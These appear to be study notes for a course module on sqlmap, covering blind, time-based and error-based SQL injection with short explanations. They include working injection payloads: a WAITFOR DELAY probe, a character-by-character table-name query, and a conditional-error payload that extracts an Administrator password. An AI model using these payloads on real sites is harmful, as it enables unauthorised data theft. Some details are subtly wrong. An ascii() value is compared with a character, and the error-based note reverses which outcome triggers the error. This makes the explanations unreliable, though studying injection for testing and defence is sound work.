 ## Cheatsheet

![[Sqlmap_Essentials_Module_Cheat_Sheet.pdf]]


## Blind-based SQL Injection

- Assume we're trying to query an ID using the following syntax:
```sql
SELECT * FROM products WHERE id = 42 and 1=1.  (1)
SELECT * FROM products WHERE id = 42 and 1=0   (2)
```

- If the query
```sql
SELECT * FROM products WHERE id = 42
```

is true => it will behave the same as (1) and if false, it will behave the same as (2).

## Time-based SQL Injection

- To check if a DB is susceptible to a **time-based SQL Injection** we use the following command:
```sql
SELECT * FROM products WHERE id = 1; WAITFOR DELAY '0:0:10'
```
**Note**: If the application is susceptible to time-based SQL injection we would see a 10s delay. Then, we can use the following code + **time-based SQL Injection** to get the name of the first DB table:
```sql
42; IF(EXISTS(SELECT TOP 1 *
  FROM sysobjects
  WHERE id=(SELECT TOP 1 id
    FROM (SELECT TOP 1 id 
      FROM sysobjects 
      ORDER BY id) 
    AS subq
    ORDER BY id DESC)
  AND ascii(lower(substring(name, 1, 1))) = 'a'))
  WAITFOR DELAY '0:0:10'
```

## SQL Injection by Triggering Conditional Errors

```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```
**Note**: If condition is true, i.e. the admin password begins with a letter > m, then it return a or otherwise it will trigger a divide by zero error.


